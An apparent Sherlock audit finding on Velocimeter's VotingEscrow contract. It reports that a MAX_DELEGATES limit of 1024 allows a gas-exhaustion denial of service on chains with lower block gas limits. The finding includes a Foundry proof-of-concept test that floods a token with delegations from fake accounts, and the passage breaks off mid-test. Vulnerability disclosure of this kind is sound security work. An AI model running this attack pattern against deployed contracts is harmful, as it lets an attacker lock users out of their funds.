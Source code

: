 The Lead Senior Watson signed off on the fix.

# Issue H-2: VotingEscrow MAX_DELEGATES value can lead to DOS on certain EVM-compatible chains 

Source: https://github.com/sherlock-audit/2024-06-velocimeter-judging/issues/26 

## Found by 
0xpiken, 1nc0gn170, 4gontuk, Audinarey, BiasedMerc, Ch\_301, DanielWang8824, Hajime, KungFuPanda, MSaptarshi, Matin, McToady, Norah, Nyx, Obin, Sentryx, StraawHaat, atoko, cawfree, cryptic, eeyore, hl\_, jennifer37, oxkmmm, sonny2k, tvdung94
## Summary

`VotingEscrow` `MAX_DELEGATES` is a hardcoded variable that ensures an address does not have an array of delegates that would lead to a DOS when calling `transfer/burn/mint` when moving delegates.. However the current value of `1024` can still lead to a DOS on certain chains.

## Vulnerability Detail

Within the contest [README](https://audits.sherlock.xyz/contests/442), the protocol states that the code is expected to function on any EVM-compatible chain, without any plans to include Ethereum mainnet:

>On what chains are the smart contracts going to be deployed?
>
>First on IOTA EVM, but code was build with any EVM-compatible network in mind. There is no plan to deploy in on Ethereum mainnet

The sponsor has also stated that it should be assumed the code will be deployed to all EVM compatible chains:
> dawid.d | Velocimeter — 18/07/2024 02:18
> you should assume that it can be deployed to any chain that is fully evm compatible

When testing the gas usage of withdrawing a tokenId that currently has the maximum number of delegates, the gas usage is:
`console::log("gas used:", 23637422 [2.363e7]) [staticcall]`

Popular EVM compatible chains block gas limit (under 24m):
[Scroll EVM](https://scrollscan.com/block/7277054): 10,000,000
[Gnosis Chain](https://gnosisscan.io/block/34879385): 17,000,000

## POC
Add the following test function to `VotingEscrow.t.sol`:
```solidity
    function testDelegateLimitAttack() public {
        vm.prank(address(owner));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, 7 days);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            flowDaiPair.transfer(fakeAccount, 1);
            vm.startPrank(fakeAccount);
            flowDaiPair.approve(address(escrow), type(uint256).max);
            escrow.create_lock(1, FIFTY_TWO_WEEKS);
            escrow.delegate(address(this));
            vm.stopPrank();
        }
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 7 days);
        uint initialGas = gasleft();
        escrow.withdraw(tokenId);
```